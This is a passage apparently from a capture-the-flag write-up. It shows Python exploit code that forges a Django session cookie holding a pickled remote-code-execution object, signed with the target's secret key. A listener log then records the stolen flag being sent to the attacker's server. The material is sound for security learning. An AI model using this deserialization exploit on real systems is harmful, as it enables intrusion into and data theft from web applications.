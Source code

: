 ```python
print(content)
content['testcookie'] = Rce()
cookie = dumps(content, key=SECRET_KEY, serializer=PickleSerializer, salt=salt, compress=True)
c_cookie = {'csrftoken': 'LUQMdTVnStctjS2xxyX8wGl9CfUHyPiROjEjjlsVFgd0a3MhpJg9XCEAIxTJupw4', 'sessionid': cookie}
print(c_cookie)
r = requests.get(c_url, cookies=c_cookie)
print(r.headers)
```

we can see our flag in python server we created :

```shell
127.0.0.1 - - [06/May/2022 09:24:27] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
127.0.0.1 - - [06/May/2022 09:24:42] "GET /hello?n=1&s=flag%7Ba6b902e045b669148b5e92f771a68d39%7D HTTP/1.1" 200 -
```

```
flag{a6b902e045b669148b5e92f771a68d39}
```

Happy Hacking
